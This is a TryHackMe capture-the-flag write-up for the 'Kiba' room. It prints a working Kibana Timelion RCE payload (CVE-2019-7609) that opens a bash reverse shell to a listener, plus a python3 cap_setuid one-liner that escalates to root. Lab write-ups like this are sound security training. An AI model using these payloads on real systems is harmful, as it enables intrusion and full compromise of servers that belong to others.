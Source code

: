 # TryHackMe kiba [room](https://tryhackme.com/room/kiba) writeup.


Nmap scan (consider that the machine took me about 5 minutes to fully boot-up):

>nmap -p- -sC [target-ip]


While we wait for nmap to finish let's check the default port 80:

![port80](port80.png)

Nothing interesting, just one hint "linux capabilities" we'll need them later to privesc.

![nmap](nmap.png)

Nmap shows us multiple ports but the one that we need is 5601, let's check it.
Right now we need to find the kibana version, after exploring the website a bit we can see the version in "management" tab.

![version](version.png)

With that information we go right into google: after a little bit of research we can find out that Kibana versions before 5.6.15 and 6.6.1 contain an RCE, and in order to exploit that we need to use timelion with a payload and setup a netcat listener.

![version](timelion.png)

Payload that i've used:

>.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/IP/PORT 0>&1");process.exit()//').props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')

Don't forget to change the ip and set the port you listen on.
After that press "run" button and click on "canvas" tab.

It actually took me a lot of tries before catching a shell, so if you don't catch it just re-do the same method with a different payload.

The payloads and a more detailed [explanation](https://github.com/mpgn/CVE-2019-7609).

And we're in.

![version](user.png)

Now we need to escalate. The questions N5-6 provides us a hint, "linux capabilities", in order to search those we can just type:

>getcap -r /

or even better:

>getcap -r / 2>/dev/null

![version](getcap.png)

Well... as we can see there's one ".hackmeplease" folder so i guess we'll check that... We can see that we have all needed permission on that file and also a "cap_setuid+ep" that means we can change our UID! Exploiting it is easy, we'll use that file to spawn a shell as root by using python:

>./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'

![privesc](privesc.png)

For any questions reach me through THM's discord.
